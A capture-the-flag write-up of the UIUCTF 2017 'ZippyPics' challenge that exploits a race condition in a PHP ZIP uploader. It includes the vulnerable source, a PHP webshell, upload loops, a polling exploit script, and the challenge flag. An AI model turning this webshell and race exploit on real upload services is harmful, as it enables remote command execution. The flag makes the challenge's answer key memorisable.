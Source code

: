 ```yaml
---
layout: post
title:  "UIUCTF 2017 - ZippyPics"
date:   2017-04-30 00:00
categories: CTF
tags: [UIUCTF2017]
categories: [Web]
author: jbz
---
```



As you can simple guess from the description, Zippy Pics allows you to upload a ZIP file with GIF / JPEG / JPG / PNG files inside to obtain a link you can share.

## Recon
By inspecting the HTML source of /upload.php you can notice that there is the full source code of the PHP script.

```php
<?php
echo "<!--";
echo htmlentities(file_get_contents(__FILE__));
echo "-->";
if($_POST['title']) {
    $title = basename($_POST['title']);
} else{
    $title = basename($_FILES["file"]["name"],".zip");
}

$id = base_convert(rand(1000000000,PHP_INT_MAX), 10, 36);
$target_dir = "/var/www/zippy/uploads/".$title."_".$id;
$tmp_dir = "/tmp/".$title."/";
$uploadOk = 1;
$fileType = pathinfo($_FILES["file"]["name"],PATHINFO_EXTENSION);

if ($_FILES["file"]["size"] > 500000) {
    echo "Your file is too large.";
    $uploadOk = 0;
}
if($fileType != "zip" ) {
    echo "Only ZIP files are allowed.";
    $uploadOk = 0;
}
if ($uploadOk == 0) {
    echo "Your file was not uploaded.";
    exit;
}

mkdir($tmp_dir,0755);


$output = shell_exec("unzip -ojd '".escapeshellcmd($tmp_dir)."' '".escapeshellcmd($_FILES["file"]["tmp_name"])."'");
echo $output;

$di = new RecursiveDirectoryIterator($tmp_dir, FilesystemIterator::SKIP_DOTS);
$ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
foreach ( $ri as $img ) {
    if ($img->isDir()) {
        rmdir($img);
    } else {
        $imgType = pathinfo($img,PATHINFO_EXTENSION);
        if ($imgType != "gif" &amp;&amp; $imgType != "jpeg" &amp;&amp; $imgType != "jpg" &amp;&amp; $imgType != "png") {
            unlink($img);
        }
    }
}
$index = fopen($tmp_dir."index.php","w");
$text = <<<'EOT'
<?php
$images = glob("*.{jpg,jpeg,png,gif}",GLOB_BRACE);

foreach($images as $image) {
    echo '<img src="'.$image.'" /><br />';
}
?>
EOT;
fwrite($index,$text);
fclose($index);
symlink($tmp_dir,$target_dir);
header("Location: /uploads/".$title."_".$id);

?>
```

## Find the vuln 
Finding the **race condition** is trivial, first of all let's analyze what the PHP script does:
 1. A folder is created in /tmp/ with the ZIP name or the provided title
 2. The uploaded zip is extracted in the created dir
 3. All extracted files are processed and the ones which have not an allowed extension are deleted
 4. An index.php file is created to show all uploaded pictures
 5. A symlink in the webroot which points to the /tmp/name || /tmp/title dir is created
 
We can exploit this procedure as:
  - If you upload 2 ZIP files with the same title they are written to the same directory and both symlink points to the same location
  - If you put files with non allowed extensions in the ZIP they are first written in the target location and then removed

## Exploiting the vuln
To exploit the vuln we must:
 1. Create a ZIP file containing an image
 2. Upload the ZIP file with an arbitrary title
 3. Take note of the symlink created in the webroot
 3. Create a ZIP containing a lot of images and a PHP file
 4. Upload the ZIP with the same arbitrary title
 5. Access the PHP file before it's deleted using the symlink

## From idea to script
The upload max size is 500kb, so we must create as many images as possible to get more time as possible to exploit the race condition. We can use imagemagik and bash to do the trick.

```bash
i=0; while [[ $(du ./ | cut -d'.' -f1| tr -d '[:space:]') -lt 475000 ]]; do convert -size 1x1 xc:#ffffff $i.png; ((i+=1)); done
```
Then we create a PHP webshell and we name it 999999.php

```php
<?php system($_GET['c']); ?>
```

We create a ZIP file with both images and the PHP webshell and we name it 1.zip.

We create another ZIP file with 1.png inside and we name it 2.zip.

We upload 2.zip using the title "jbz".

We start submitting 1.zip in loop with a simple bash script.

    while true; do curl -s -o /dev/null -F "title=merda" -F "create=" -F "file=@1.zip" 'http://challenge.uiuc.tf:8888/upload.php'; done

We create a script to check if 999999.php is there and execute an arbitrary command.

```python
#!/usr/bin/env python

import requests

def new_symlink():
    url = "http://challenge.uiuc.tf:8888/upload.php"
    files = {'file': open('2.zip', 'rb')}
    values = {'title': 'merda', 'create' : ''}
        r = requests.post(url, files=files, data=values)
    print r.url
    return r.url

check = new_symlink()

while True:
    r = requests.get(check + "999999.php?c=ls -lah /var/www/zippy/")
    if r.status_code != 404:
        print r.text
        print "Race WON BB!!"
        exit()
```

Time to prepare a coffee and wait for the flag :D

## Brace yourselves flag is coming
After a while (damn!) we won the race and got this:

```
smaury@hitch-hicker:/tmp/$ python create.py
http://challenge.uiuc.tf:8888/uploads/merda_9wz7hmnn3bk/
total 220K
drwxr-xr-x 4 root     root     4.0K Apr 29 17:07 .
drwxr-xr-x 4 root     root     4.0K Apr 29 17:07 ..
drwxr-xr-x 2 root     root     4.0K Apr 29 17:07 9d8bf193d88e4d3ab5fca4d7cb2d573f
-rw-r--r-- 1 root     root     2.4K Apr 29 15:20 index.html
-rw-r--r-- 1 root     root     1.6K Apr 29 17:02 upload.php
drwxr-xr-x 2 www-data www-data 196K Apr 30 05:20 uploads

WON the race!!
```
    
After visiting http://challenge.uiuc.tf:8888/uploads/merda_9wz7hmnn3bk/9d8bf193d88e4d3ab5fca4d7cb2d573f/ we saw that the directory listing was available and that there was a flag file:

```bash
curl http://challenge.uiuc.tf:8888/9d8bf193d88e4d3ab5fca4d7cb2d573f/flag
flag{ez_as_lock_picking_a_ziploc}
```